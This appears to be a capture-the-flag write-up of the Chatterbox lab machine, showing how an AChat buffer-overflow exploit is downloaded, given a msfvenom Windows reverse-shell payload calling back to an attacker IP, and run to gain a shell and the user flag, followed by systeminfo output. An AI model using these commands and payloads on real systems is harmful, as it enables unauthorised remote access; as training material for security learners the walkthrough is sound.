 ## Initial access

### AChat

- With some research on this program it seems to be a buffer overflow, there's an exploit made for it [here](https://www.exploit-db.com/raw/36025)
- Let's get the exploit on our machine `wget https://www.exploit-db.com/raw/36025`
- We just need to change the payload and do this instead because we want to get a reverse shell (not launch calc as the exploit payload is doing): 
```
msfvenom -a x86 --platform Windows -p 'windows/shell_reverse_tcp' LHOST=10.10.14.4 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
- Now we can replace the buffer in the exploit script with our buffer, we also need to change the server adress with the ip of the target `10.10.10.74`
- We launch the python script (wont work with python3 we need to use python2)  
![image](https://user-images.githubusercontent.com/96747355/161382880-61c2adae-906c-42fb-bb15-1d26aa0a7361.png)

- We get a shell
![image](https://user-images.githubusercontent.com/96747355/161382182-e8c773da-e2de-41a9-9655-b1d05d7089e2.png)  
```
whoami
chatterbox\alfred
```

- Let's get the user flag
```
cd C:\Users\Alfred\Desktop
type user.txt
```

## Post Attack Enumeration

- `systeminfo`
```
Host Name:                 CHATTERBOX
OS Name:                   Microsoft Windows 7 Professional 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00371-222-9819843-86663
Original Install Date:     12/10/2017, 9:18:19 AM
System Boot Time:          4/2/2022, 12:29:38 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
```